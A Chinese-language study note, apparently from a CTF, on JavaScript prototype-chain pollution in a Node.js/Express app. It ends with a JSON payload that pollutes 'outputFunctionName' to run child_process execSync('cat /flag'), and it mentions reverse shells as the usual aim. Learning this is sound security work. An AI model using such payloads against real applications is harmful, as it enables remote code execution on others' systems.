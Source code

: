 # 原型链污染

## 1、原型链特性

* 原型链的特性：

  在我们调用一个对象的某属性时：

  ```markdown
  1.对象(obj)中寻找这一属性
  2.如果找不到，则在obj.__proto__中寻找属性
  3.如果仍然找不到，则继续在obj.__proto__.__proto__中寻找这一属性
  ```

  以上机制被称为js的prototype继承链。而原型链污染就与这有关

* 原型链污染定义：

  ```undefined
  如果攻击者控制并修改了一个对象的原型，那么将可以影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是原型链污染
  ```

## 2、使用条件

* js审计如果看见merge，clone函数，可以往原型链污染靠，跟进找一下关键的函数，找污染点
  * *切记一定要让其__proto__解析为一个键名*

### 总结：

1. 原型链污染属于前端漏洞应用，基本上需要源码审计功力来进行解决；找到merge(),clone()只是确定漏洞的开始
2. 进行审计需要以达成RCE为主要目的。通常exec, return等等都是值得注意的关键字。
3. 题目基本是以弹shell为最终目的。目前来看很多Node.js传统弹shell方式并不适用.wget,curl

## 3、使用方法

### 1、找到一个可污染的参数

* 一个可以被渲染但是未被定义的参数

  * ```
    router.get('/info', function (req, res) {
      res.render('index',data={'user':res.outputFunctionName});
    })
    ```

### 2、抓包（clone函数所在的，本题为POST方法/action）修改参数，发包

* ```
  router.post('/action', function (req, res) {
    if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
    req.session.user.data = clone(req.body);
    res.end("<script>alert('success');history.go(-1);</script>");  
  });
  ```

* 将``content_type`修改为`application/json`，将内容修改为`{"lua":{"outputFunctionName":"a;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//"}}`

### 3、刷新页面自动下载文件得到flag